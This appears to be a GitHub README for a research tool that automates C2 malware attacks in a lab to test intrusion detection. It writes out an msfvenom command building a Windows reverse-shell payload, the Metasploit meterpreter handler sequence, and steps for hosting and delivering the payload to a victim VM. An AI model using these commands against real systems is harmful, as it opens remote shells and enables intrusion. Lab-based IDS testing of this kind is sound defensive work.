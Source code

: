 # C2abstraction
C2 abstraction layer that provides high-level diverse malware attacks to test IDS. 

Important Notes: Updated 11-07-2023

The important python files are 'C2Abstraction' and 'Mouse Script'

# Virtual Machines:

Attacker - Kali Linux (each IP is different => Must change line 64 in setup)

Victim - Another virtual machine (in this case using Windows)

    Preliminary work:
        - Setting up Kali Linux (on VMWare, an alternative is on Oracle VM): https://www.youtube.com/watch?v=pwYH0NNWWzU
        - Setting up victim machine: https://www.youtube.com/watch?v=nvdnQX9UkMY&t=259s

# METASPLOIT:
    How to create a payload?
        - If you are creating a payload for testing directly from terminal
          run command 'msfvenom -p windows/shell/reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f exe > ~/Desktop/ShellCodes/payload.exe'
          NOTE: this command assumes that you have a folder called 'ShellCodes' (can be removed)

    How to deploy the payload? (Need to automate this step)
        - As of right now, you can create a server to host the payload by
          right clicking on the folder and choose 'open terminal here' then
          use the command 'python3 -m http.server'

        - How to access this sever on the victim machine?
            * Open a webserver and type in 'http://{ip of kali machine}:{port number}'
            * In this case it is 'http://192.168.239.128:8000 (8000 is the default port)

    How to run msfvenom?
        - run 'msfconsole' in command line
        - then type in 'use exploit/multi/handler'
        - then set payload as 'set payload windows/meterpreter/reverse_tcp'
        - set host using 'set lhost {attacker ip}'
        - set listening port using 'set lport {target_port}'
        - then type in 'exploit'
        NOTE: in the code this whole sequence is chained into one line on line 46: 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost {target_ip}; set lport {target_port}; exploit;


    How to track if HTTP commands/connections are going through?
        -You can catch the logs of the HTTP connections in real time by
            * going to /etc
            * then go to /ssh
            * then use 'nano' command to edit the 'sshd_config' file
            * look for the line '#LogLevel INFO'
            * remove the # then replace INFO with 'VERBOSE'
            * now run 'sudo journalctl -f' in the command line to track the logs
    
    How to run the payload on the victim machine?
        - Using SCP we can connect to the victim machine via SSH and execute the payload 


# COVENANT:

NOTE: What is the difference between covenant and metasploit?

- Covenant has a web GUI that requires a script to control the mouse to deploy the malware

How to download covenant/introduction to covenant: https://www.youtube.com/watch?v=BLMW0fougFM

How to use the interface: https://www.youtube.com/watch?v=iX_qsbbNk2w

Mouse Script:
    - This python file is used to automatically control your mouse to create a listener on the GUI
      and create the "grunt" (used for collecting information)




# Citation
    @Unpublished{HungVu_IDS_TESTING_C2,
      author = {Hung Anh Vu},
      title = {{Research Testing Environment}},
      url = {https://github.com/HungAnhVu/C2abstraction},
      version = {1.0.0},
      year = {2023}
    }
